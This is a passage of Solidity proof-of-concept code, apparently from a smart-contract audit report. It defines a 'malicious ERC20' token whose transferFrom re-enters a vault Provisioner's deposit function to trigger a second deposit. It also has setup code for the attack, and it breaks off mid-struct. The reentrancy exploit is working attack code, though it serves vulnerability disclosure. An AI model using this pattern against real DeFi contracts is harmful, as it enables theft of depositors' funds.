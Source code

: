 ```solidity
    function multiDepositorVaultParameters() external view returns (IBeforeTransferHook) { return hook; }

    function deploy() external returns (MultiDepositorVault) {
        // msg.sender == address(this) in constructor context
        return new MultiDepositorVault();
    }
}

// --- Malicious ERC20 that reenters Provisioner during transferFrom ---
contract ReenteringToken is ERC20("R", "R") {
    Provisioner public prov;
    IERC20 public self;
    bool public reenterOnce;

    constructor() { self = IERC20(address(this)); }

    function setProvisioner(Provisioner p) external { prov = p; }
    function setReenterOnce(bool v) external { reenterOnce = v; }

    function mint(address to, uint256 amt) external { _mint(to, amt); }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        // Standard transferFrom behavior
        super.transferFrom(from, to, amount);
        // Reenter exactly once during the first deposit
        if (reenterOnce) {
            reenterOnce = false;
            // Trigger a second deposit of the same amount
            prov.deposit(self, amount, 1); // minUnitsOut=1 to pass bound
        }
        return true;
    }
}

contract PoC {
    Provisioner prov;
    MultiDepositorVault vault;
    ReenteringToken token;

    function setUp() external {
        // Deploy calculator and factory
        MockCalculator calc = new MockCalculator();
        MockFactory factory = new MockFactory(IBeforeTransferHook(address(0)));
        // Deploy Vault via factory (constructor expects msg.sender to be factory)
        vault = factory.deploy();
        // Deploy Provisioner with calc and vault
        prov = new Provisioner(calc, address(vault), address(this), Authority(address(0)));
        // Set vault provisioner (requires owner/authority in your environment)
        vault.setProvisioner(address(prov));

        // Configure deposit details
        prov.setDepositDetails(100 ether /*depositCap*/, 1 days);

        // Deploy malicious token and register as depositable
        token = new ReenteringToken();
        token.mint(address(this), 1_000 ether);
        token.approve(address(prov), type(uint256).max);
        // Enable sync deposit with neutral multipliers and active pricing
        IProvisioner.TokenDetails memory details = IProvisioner.TokenDetails({
            depositMultiplier: 10_000, // 100%
            redeemMultiplier: 10_000,
```